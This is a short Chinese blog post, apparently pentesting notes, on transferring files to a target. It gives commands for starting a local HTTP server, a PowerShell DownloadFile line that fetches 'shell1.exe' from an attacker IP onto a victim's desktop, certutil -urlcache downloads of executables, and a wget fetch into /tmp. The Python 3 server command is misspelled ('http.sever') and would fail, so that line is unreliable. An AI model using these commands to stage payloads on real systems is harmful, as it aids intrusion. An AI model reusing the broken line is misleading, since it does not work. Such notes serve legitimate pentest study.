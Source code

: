 ```yaml
---
title: 渗透测试之文件传输
date: 2021/12/12
tags: 渗透测试
categories: 渗透测试
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_15.jpg
---
```




# 文件传输

---

- 首先要在本地机器上开启HTTP服务（在被传文件的同一路径下）：

```
python2 -m SimpleHTTPServer
python3 -m http.sever
```

---



## windows

- powershell

```
PowerShell (new-object Net.WebClient).DownloadFile('http://10.10.14.5:8082/shell1.exe','c:\Users\tolis\Desktop\shell1.exe')
```

- [certutil](https://zhuanlan.zhihu.com/p/107819644) windows自带渗透测试文件

```
certutil -f -urlcache http://10.10.14.3/file.exe renamefile.exe
certutil.exe -urlcache -split -f http://example.com/file.txt
```

## linux

- wget

```
需要切换到/tmp目录下，才具有下载权限
wget http://example.com:port/filename.txt
```

